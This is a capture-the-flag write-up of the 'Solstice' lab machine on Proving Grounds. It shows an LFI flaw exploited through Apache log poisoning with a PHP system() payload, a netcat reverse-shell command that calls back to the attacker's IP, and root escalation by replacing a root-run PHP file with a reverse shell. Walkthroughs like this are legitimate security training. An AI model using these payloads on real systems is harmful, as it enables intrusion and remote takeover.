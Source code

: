 ```yaml
---
title: "Proving grounds Play: Solstice"
layout: post
date: 2023-09-13 05:00
categories: writeup
---
```


Proving grounds Play - Solstice CTF writeup.

## Nmap

```sh
PORT      STATE SERVICE    VERSION
21/tcp    open  ftp        pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.180.72:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5ba737fd556cf8ea03f510bc94320718 (RSA)
|   256 abda6a6f973fb2703e6c2b4b0cb7f64c (ECDSA)
|_  256 ae29d4e346a1b15227838f8fb0c436d1 (ED25519)
25/tcp    open  smtp       Exim smtpd
| smtp-commands: solstice Hello nmap.scanme.org [192.168.45.197], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp    open  http       Apache httpd 2.4.38 ((Debian))
2121/tcp  open  ftp        pyftpdlib 1.5.6
3128/tcp  open  http-proxy Squid http proxy 4.6
8593/tcp  open  http       PHP cli server 5.5 or later (PHP 7.3.14-1)
54787/tcp open  http       PHP cli server 5.5 or later (PHP 7.3.14-1)

62524/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web PORT : 8593

![img](/assets/images/CTF/Proving_Grounds/Solstice/web.png)

## LFI Vulnerability

Clicking on the `Book List` button shows the `index.php?book` location.   

![img](/assets/images/CTF/Proving_Grounds/Solstice/lfi.png)

## Apache Log Poisoning attack

```text
http://192.168.180.72:8593/index.php?book=../../../../../../var/log/apache2/access.log
```

The LFI vulnerability can be exploited through the log poisoning attack. Send a php code execution payload to the server to store the payload in the log file.

```sh
curl http://192.168.180.72 -A "<?php system(\$_GET['cmd']); ?>"
```

Execute arbitrary command in the URL to verify the code execution.

```sh
http://192.168.180.72:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=whoami
```

Execute the below netcat command to obtain reverse shell. Ensure netcat listener is running on the desired PORT for reverse connection.

```sh
curl -s "http://192.168.180.72:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=nc%20192.168.45.197%204444%20-e%20%2Fbin%2Fbash%20"
```

![img](/assets/images/CTF/Proving_Grounds/Solstice/shell.png)

**Initial Foothold obtained**

## Privilege Escalation

### Process Enumeration

Check the running process with root permissions.

```sh
ps aux | grep root
```

![img](/assets/images/CTF/Proving_Grounds/Solstice/ps.png)

PHP is running as root, in order to get a shell as `root` the index.php file located in the `/var/tmp/sv/` folder has to be replaced with a php reverse shell.

Download the pentest monkey php reverse shell into the folder and rename it as `index.php`. Once the file is downloaded and renamed then run internal curl command to execute the php file to obtain the reverse shell.

![img](/assets/images/CTF/Proving_Grounds/Solstice/root.png)

**Root obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).